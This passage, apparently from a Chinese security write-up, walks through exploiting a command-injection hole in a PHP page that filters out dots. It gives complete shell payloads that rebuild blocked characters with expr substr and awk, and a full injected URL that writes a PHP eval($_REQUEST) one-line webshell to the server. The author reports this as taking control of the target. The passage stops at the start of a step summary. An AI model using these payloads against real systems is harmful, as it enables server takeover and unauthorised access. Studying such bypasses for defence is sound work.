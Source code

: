 执行出现了语法错误.

![2014030416323382082.png](http://drops.javaweb.org/uploads/images/b09cb808b7068d39e07093d850a607e7175d13a8.jpg)

换一个思路,原来绕了个大弯路.直接`cat test.php > xxoo`就解决了. 不过这样还是过滤成了test_php，只能先从 xxx把点借过来.

语句:

```
cat test`expr substr $(awk NR==2 xxx) 6 1`php >xxoo

```

这样把test.php写入xxoo文件就ok了

最后把test.php全部改成xxoo就解决了点的限制

原语句：

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php

```

修改后:

```
echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php

```

测试环境成功执行:

```
http://localhost/test.php?id=anything;echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php;

```

![2014030416381681081.png](http://drops.javaweb.org/uploads/images/791df8bba2e581774adf241a4cce2ad77b9dcafb.jpg)

最终成功写入完整的php一句话木马.拿下目标webshell 权限.

![2014030416360451579.png](http://drops.javaweb.org/uploads/images/06a1e1a9e6ee55e79aa8ae00cd4474500a9aa745.jpg)

### 总结步骤：

#### 1) 

```
ls >xxx ，cat xxx    //先找点，得到.的行列数。

```
